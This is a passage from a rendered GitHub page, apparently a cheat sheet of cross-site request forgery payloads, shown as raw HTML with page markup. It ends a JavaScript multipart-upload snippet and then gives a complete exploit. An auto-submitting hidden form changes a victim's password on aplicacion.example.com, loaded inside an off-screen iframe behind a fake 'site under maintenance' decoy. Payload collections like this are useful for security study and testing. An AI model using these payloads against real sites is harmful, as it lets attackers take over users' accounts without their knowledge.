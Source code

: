 body += 'Content-Disposition: form-data; name=&quot;' + nameVar +'&quot;; filename=&quot;' + fileName + '&quot;\r\n';
body += &quot;Content-Type: &quot; + ctype + &quot;\r\n\r\n&quot;;
body += fileData + &quot;\r\n&quot;;
body += &quot;--&quot; + boundary + &quot;--&quot;;

//xhr.send(body);
xhr.sendAsBinary(body);
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request-from-within-an-iframe" class="anchor" aria-hidden="true" href="#form-post-request-from-within-an-iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request from within an iframe</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;--! expl.html --&gt;

&lt;body onload="envia()"&gt;
&lt;form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php"&gt;
&lt;input type="text" id="pwd" name="pwd" value="otra nueva"&gt;
&lt;/form&gt;
&lt;body&gt;
&lt;script&gt;
function envia(){document.getElementById("formulario").submit();}
&lt;/script&gt;

&lt;!-- public.html --&gt;
&lt;iframe src="2-1.html" style="position:absolute;top:-5000"&gt;
&lt;/iframe&gt;
&lt;h1&gt;Sitio bajo mantenimiento. Disculpe las molestias&lt;/h1&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<--! expl.html -->

